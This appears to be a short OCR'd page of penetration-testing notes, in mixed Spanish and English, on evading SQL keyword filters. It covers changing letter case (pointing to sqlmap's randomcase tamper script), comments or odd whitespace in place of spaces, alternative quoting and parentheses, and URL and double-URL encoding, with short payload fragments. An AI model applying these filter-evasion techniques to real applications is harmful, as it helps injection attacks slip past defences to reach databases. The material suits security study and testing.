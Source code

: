 ## Bypassing Keyword Filters

La primera limitación son la restricción de palabras clave

### Case Changing

Lo más simple es cambiar los casos de cada personaje:

```bash
SeLeCt
SEleCT
etc
```

sqlmap tiene un guión de manipulación para automatizar este cambio de caso

→ https://github.com/sqlmapproject/sqlmap/blob/master/tamper/randomcase.py

### Using Intermediary Characters

Podemos utilizar ambos comentarios en lugar de espacios y dependiendo de la versión DBMS, una lista del espacio en blanco que no se ajuste como espacios:

```bash
SELECT/**/values/**/and/**/.../**/or/**/
SELECT[sp]values[sp]and...[sp]or[sp]
```

### Using alternative Techniques

```bash
SELECT"values"from'table'where/**/1
SELECT(values)from(table)where(1)
SELECT"values"''from'table'where(1)
SELECT+"values"%A0from'table'
```

### Circumventing by Encoding

Todo depende de cómo la aplicación procese los datos

* entre el atacante y la aplicación, hay muchas capas, como un proxy, cortafuegas, etc. Si algunas de estas capas manejan la codificación de manera diferente, podría haber un posible bypass

URL Codificación:

```bash
- Usually when the requests are sent through the internet via HTTP, they are URL encoded.
- In this case we can send the entire string URL-encoded
```

Codificación de doble URL:

```bash
# If u encode a URL-Encoded string, they u are performing a Double URL-Encoding

s = %73 > %2573
```
